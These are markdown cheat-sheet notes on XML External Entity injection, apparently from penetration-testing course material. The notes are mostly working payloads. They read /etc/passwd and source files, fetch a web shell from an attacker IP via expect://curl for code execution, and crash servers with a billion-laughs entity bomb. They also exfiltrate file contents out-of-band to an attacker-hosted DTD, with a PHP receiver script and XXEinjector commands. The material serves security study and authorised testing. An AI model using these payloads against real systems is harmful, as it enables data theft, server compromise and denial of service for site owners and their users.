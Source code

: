 # XML External Entity(XEE)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down, which is why it is considered one of the Top 10 Web Security Risks by OWASP.


`Note: We may also use the PUBLIC keyword instead of SYSTEM for loading external resources, which is used with publicly declared entities and standards, such as a language code (lang="en").`

# Identifying
The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input.

# Reading Sensitive Files
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>

<tag displayed >
  &company;
</tag displayed >
```

# Reading Source Code
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

We can select the base64 string, click on Burp's Inspector tab (on the right pane), and it will show us the decoded file. For more on PHP filters, you can refer to the [File Inclusion / Directory Traversal](#) module.

# Remote Code Execution with XXE
In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for ssh keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the PHP://expect filter, though this requires the PHP expect module to be installed and enabled.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/webshell.php'">
]>

<tag displayed >
  &company;
</tag displayed >
```

`Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.`

# Other XXE Attacks
Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# Advanced Exfiltration with CDATA
```bash
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

# Error Based XXE
Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be blind to the XML output and so would not be able to retrieve the file content using our usual methods.

First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. <roo> instead of <root>), or just reference a non-existing entity, as follows:

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Now, we can call our external DTD script, and then reference the error entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

# Blind Data Exfiltration
## Out-of-band Data Exfiltration
In our previous attacks, we utilized an out-of-band attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our file entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the file parameter value as part of the URL being requested over HTTP, as follows:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

```bash
$ php -S 0.0.0.0:80
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Automated OOB Exfiltration
Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:
```bash
$ git clone https://github.com/enjoiz/XXEinjector.git
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write XXEINJECT after it as a position locator for the tool:

Now, we can run the tool with the --host/--httpport flags being our IP and port, the --file flag being the file we wrote above, and the --path flag being the file we want to read. We will also select the --oob=http and --phpfilter flags to repeat the OOB attack we did above, as follows:
```bash
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the Logs folder under the tool, and we can find our file there:

